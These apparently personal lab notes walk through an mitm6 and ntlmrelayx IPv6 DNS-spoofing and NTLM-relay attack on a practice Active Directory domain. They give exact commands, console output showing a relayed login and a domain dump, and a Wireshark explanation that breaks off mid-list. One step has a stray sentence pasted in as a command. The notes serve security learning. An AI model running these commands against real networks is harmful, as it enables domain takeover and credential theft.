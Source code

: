 
If mitm6 not yet installed
1. cd /opt/mitm6
2. sudo pip3 install .


How to initiate the attack?

1. Prepare the command `sudo mitm6 -d marvel.local`. Do not yet execute it as we will run ntlmrelayx first.
2. Execute `ntlmrelayx 6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -escalate-user pparker` or `The Domain Computer requested wpad.dat file to the attacker's machine. based from the image, it successfully downloaded the wpad.dat.` - Sets up the relay server and WPAD host, ready to intercept and relay NTLM authentication.

```
└─$ impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client fe80::fde3:206f:be61:b3b7
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, attacking target ldaps://192.168.64.250
[*] HTTPD(80): Authenticating against ldaps://192.168.64.250 as MARVEL/PUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409

```
3. Now execute the `sudo mitm6 -d marvel.local`

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local                                                          
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [ea:f0:2f:00:11:3a]
IPv4 address: 192.168.64.4
IPv6 address: fe80::e8f0:2fff:fe00:113a
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::913:1 is now assigned to mac=8e:27:0f:ff:34:d1 host=SPIDERMAN.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Renew reply sent to fe80::913:1
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7


```

4. After that,  a loot me file was saved in the /home/kali directory

Capturing, in the wireshark, here is the step by step

1. IPV6 router advertisement - The attacker/kali impersonates will introduce itself as an  IPV6 router
![[Pasted image 20240716203249.png]]
2. DHCPv6 Activity - After the domain computer reboots, it perform DHCPv6 solicitation in response to the new router advertisement. The Kali then offers link local and global address to the domain computer
![[Pasted image 20240716205537.png]]

3. After obtaining DHCPv6 address, it then query for WPAD(Web proxy auto discovery) . As you see below, the client queries for the IPv4 and IPv6 address of wpad.marvel.local and the attacker replies its IPv4 and IPV6 address
![[Pasted image 20240716213537.png]]

4. The Domain Computer acknowledged that the WPAD server is kali/attacker's IP. It will requeste wpad.dat file to the attacker's machine via HTTP `GET`. Based from the image below, it successfully downloaded the wpad.dat.
`GET http://fakewpad.marvel.local/wpad.dat`
![[Pasted image 20240716221027.png]]

5.  The `wpad.dat` file contains JavaScript that directs the host to use the attacker's (Kali's) proxy.
6. The domain computer attempts to authenticate to the attacker's(KALi) proxy using NTLM authentication.

1. The attacker reposnds with ;407 Proxy Authentication required, prompting the domain computer to send an NTLM authentication (NTLM Negotiate)
2. The domain computer sends an NTLM Negotiate message to the attacker.
3. 

